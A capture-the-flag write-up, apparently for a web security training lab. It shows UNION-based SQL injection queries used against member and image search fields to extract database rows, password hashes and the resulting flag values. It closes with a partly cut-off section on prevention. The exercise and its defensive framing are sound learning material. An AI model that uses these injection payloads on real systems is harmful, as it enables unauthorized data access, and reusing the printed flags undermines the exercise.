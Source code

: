 <aside>

```
ID: 1 UNION SELECT user_id, CONCAT(first_name,user_id,last_name,user_id,town,user_id,country,user_id,planet,user_id,countersign,user_id,Commentaire,user_id) FROM users
First name: 5
Surname : Flag5GetThe54254254255ff9d0165b4f92b14994e5c685cdce285Decrypt this password -> then lower all the char. Sh256 on it and it's good !5
```

</aside>

By splitting the data with the user_id which is 5, we could easily parse it into this :

- user_id: 5
- first_name: Flag
- last_name: GetThe
- town, country, planet: 42
- countersign: 5ff9d0165b4f92b14994e5c685cdce28
- Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and it's good

The comment shows how to get the flag: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

### Breach 2

While exploring the application further, I discovered an image search field similar to the members search, located at `10.12.100.97/?page=searchimg&id=1&Submit=Submit`. Since this input field might be vulnerable to SQL injection as well, I decided to repeat the steps I had previously used. Using the same method as before, I retrieved the tables and their columns and found a table called `list_images` with three columns. I constructed the following query to concatenate and extract the data from the `list_images` table: `1+UNION+SELECT+id,+CONCAT(url,id,title,id,comment,id)+FROM+list_images`. This allowed me to retrieve image details from the database.

Among the retrieved data was the following output

<aside>

```
ID: 1 UNION SELECT id, CONCAT(url,id,title,id,comment,id) FROM list_images
Title: borntosec.ddns.net/images.png5Hack me ?5If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c465
Url : 5
```

</aside>

which again shows the exact way to get the flag: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

### Preventing SQL Injections

SQL injection vulnerabilities can lead to serious data breaches, unauthorized access or system compromise. Therefore, it is critical to implement effective countermeasures to prevent this type of attack. Some key best practices to prevent SQL injections include:

- **Using parameterized queries**
    
